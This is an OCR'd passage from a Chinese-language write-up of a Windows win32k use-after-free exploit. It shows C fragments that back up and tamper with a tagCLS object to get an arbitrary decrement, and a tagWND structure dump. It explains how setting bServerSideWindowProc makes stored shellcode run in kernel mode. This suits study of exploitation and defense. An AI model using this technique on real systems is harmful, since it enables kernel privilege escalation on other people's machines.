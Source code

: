 整合到一起，我们现在可以备份要攻击的 tagCLS 对象。然后，篡改偏移 0x58 来任意自减。

```c
VOID BackupVictimCLS(HWND tagWndHwnd){
         DWORD krnlTagWndHwnd = FindW32kHandleAddress(tagWndHwnd);
         DWORD userTagWndHwnd = krnlTagWndHwnd - g_ulClientDelta;
         DWORD krnlVictimTagCLS = *(DWORD *)(userTagWndHwnd + 0x64);
         DWORD userVictimTagCLS = krnlVictimTagCLS - g_ulClientDelta;
         memcpy(originalCLS, userVictimTagCLS, 0x5c);
         return 0;
}
VOID ArbDecByOne(DWORD addr){
...
*(DWORD *)(originalCLS + 0x58) = addr – 0x4;
...
}
```
## 4.3 tagWND 结构

我决定使用 Nils【10】阐述的技巧，该技巧从曾用于 Pwn2Own 2013。
首先，我创建了一个新的 win32k 窗口对象，也就是 tagWND 结构。
接着，把 shellcode 存储到它的的窗口过程中。再接着，
多次触发释放后重用来反转刚刚创建的 tagWND 结构的
bServerSideWindowProc 比特。这是因为我们需要自减这个值
直到它卷到零下并且设置 bServerSideProc 比特。

```
kd> dt win32k!tagWND
     +0x000 head                 : _THRDESKHEAD
     +0x014 state                : Uint4B
     +0x014 bHasMeun             : Pos 0, 1 Bit
     +0x014 bHasVerticalScrollbar : Pos 1, 1 Bit
     +0x014 bHasHorizontalScrollbar : Pos 2, 1 Bit
     +0x014 bHasCaption          : Pos 3, 1 Bit
     +0x014 bSendSizeMoveMsgs : Pos 4, 1 Bit
     +0x014 bMsgBox              : Pos 5, 1 Bit
     +0x014 bActiveFrame         : Pos 6, 1 Bit
     +0x014 bHasSPB              : Pos 7, 1 Bit
     +0x014 bNoNCPaint           : Pos 8, 1 Bit
     +0x014 bSendEraseBackground : Pos 9, 1 Bit
     +0x014 bEraseBackground : Pos 10, 1 Bit
     +0x014 bSendNCPaint         : Pos 11, 1 Bit
     +0x014 bInternalPaint       : Pos 12, 1 Bit
     +0x014 bUpdateDirty         : Pos 13, 1 Bit
     +0x014 bHiddenPopup         : Pos 14, 1 Bit
     +0x014 bForceMenuDraw       : Pos 15, 1 Bit
     +0x014 bDialogWindow        : Pos 16, 1 Bit
     +0x014 bHasCreatestructName : Pos 17, 1 Bit
     +0x014 bServerSideWindowProc : Pos 18, 1 Bit
Snipped
```

如果设置了 bServerSideWindowProc 比特，
关联窗口的过程将不进行情景切换就执行，
并且它以内核线程执行存储在窗口过程中的 shellcode。
